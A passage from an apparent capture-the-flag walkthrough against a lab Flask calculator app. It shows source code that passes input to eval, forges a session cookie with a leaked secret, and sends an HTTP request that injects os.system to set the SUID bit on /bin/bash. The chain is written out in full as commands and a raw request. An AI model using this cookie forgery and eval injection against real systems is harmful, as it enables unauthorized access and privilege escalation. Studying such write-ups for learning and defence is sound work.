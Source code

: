 ```python
        return str(eval("%s + %s" % (a, b)))
def sub(a, b):
        return str(eval("%s - %s" % (a, b)))
def mul(a, b):
        return str(eval("%s * %s" % (a, b)))
def div(a, b):
        return str(eval("%s / %s" % (a, b)))
```

Since we have the Flask secret, we can create a cookie to bypass this since it only checks for the `logged_in` parameter.&#x20;

```
$ flask-unsign --sign --cookie "{'logged_in': True}" --secret 'Fl@sKy_Sup3R_S3cR3T'   
eyJsb2dnZWRfaW4iOnRydWV9.ZLI_rA.WmTcl0Wa5jOy8ajsJvWhn6npDKA
```

This allows us to access the calculator application:

<figure><img src="../../../.gitbook/assets/image (1274).png" alt=""><figcaption></figcaption></figure>

The source code uses `eval` to calculate the results, which is vulnerable to RCE. We can just inject Python code like this:

```http
POST /div HTTP/1.1
Host: 192.168.201.141:5555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://192.168.201.141:5555
Connection: close
Referer: http://192.168.201.141:5555/
Cookie: session=eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZLI2-g.jAwlyKLCDrUP8eKqrY5OqHx15j0; JWT=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6ICIxIiwiZ3Vlc3QiOiAidHJ1ZSIsImFkbWluIjogZmFsc2V9.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
Upgrade-Insecure-Requests: 1



value1=os.system("chmod+u%2bs+/bin/bash")&value2=1
```